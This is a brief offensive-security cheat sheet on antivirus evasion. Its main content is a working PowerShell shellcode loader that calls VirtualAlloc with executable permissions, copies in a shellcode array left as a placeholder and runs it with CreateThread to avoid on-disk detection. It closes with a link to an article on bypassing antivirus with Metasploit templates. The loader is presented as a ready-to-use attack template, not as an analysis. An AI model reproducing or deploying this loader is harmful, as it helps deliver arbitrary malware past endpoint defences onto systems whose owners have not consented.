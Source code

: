 # AV Evasion

# In-Memory Evasion

```abap
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint
flAllocationType, uint flProtect);
[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize,
IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';
$winFunc =
Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;
[Byte[]];
[Byte[]]$sc = <place your shellcode here>;
$size = 0x1000;
if ($sc.Length -gt 0x1000) {$size = $sc.Length};
$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);
for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i),
$sc[$i], 1)};
$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

# On-Disk

This article is really good

[AV Bypass with Metasploit Templates and Custom Binaries](https://www.ired.team/offensive-security/defense-evasion/av-bypass-with-metasploit-templates)